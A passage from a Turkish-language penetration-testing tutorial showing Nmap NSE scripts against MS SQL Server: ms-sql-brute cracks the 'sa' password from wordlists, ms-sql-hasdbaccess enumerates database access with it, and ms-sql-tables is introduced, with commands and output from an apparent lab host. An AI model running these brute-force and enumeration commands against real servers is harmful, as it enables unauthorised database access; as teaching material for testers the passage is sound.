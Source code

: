 ```
root@kali:~# nmap -p 1433 --script ms-sql-brute --script-args userdb=usernames.txt,passdb=password.txt 172.17.6.66

Starting Nmap 7.40 ( https://nmap.org ) at 2017-08-15 08:24 EDT
Nmap scan report for 172.17.6.66
Host is up (0.16s latency).
PORT     STATE SERVICE
1433/tcp open  ms-sql-s
| ms-sql-brute: 
|   [172.17.6.66:1433]
|     Credentials found:
|_      sa:manager => Login Success
MAC Address: 38:B1:DB:F8:04:A9 (Hon Hai Precision Ind.)

Nmap done: 1 IP address (1 host up) scanned in 23.83 seconds
```
Çıktıda görüldüğü üzere veritabanı kullanıcı adını ve şifresini öğrenmiş olduk. Hangi kullanıcının hangi veritabanına erişimi olduğunu listeleyen <code>ms-sql-hasdbaccess.nse</code> betiğini çalıştıralım.

 **ms-sql-hasdbaccess script kullanımı**
  
   
>  <code>``nmap -p 1433 --script ms-sql-hasdbaccess --script-args mssql.username=sa,mssql.password=sa <host>``
</code>
 


```
root@kali:~# nmap -p 1433 --script ms-sql-hasdbaccess.nse --script-args mssql.username=sa,mssql.password=manager 172.17.6.66

Starting Nmap 7.40 ( https://nmap.org ) at 2017-08-15 08:37 EDT
Nmap scan report for 172.17.6.66
Host is up (0.13s latency).
PORT     STATE SERVICE
1433/tcp open  ms-sql-s
| ms-sql-hasdbaccess: 
|   [172.17.6.66:1433]
|       sa (Showing 5 first results)
|         dbname	owner
|         ======	=====
|_        TEST	sa
MAC Address: 38:B1:DB:F8:04:A9 (Hon Hai Precision Ind.)

Nmap done: 1 IP address (1 host up) scanned in 0.84 seconds
```
Veritabanı tablolarını görüntülemek için <code>ms-sql-tables</code>betiğini kullanabiliriz.

 **ms-sql-tables script kullanımı**
  
><code>``nmap -p 1433 --script ms-sql-tables --script-args mssql.username=sa,mssql.password=sa <host>``</code>
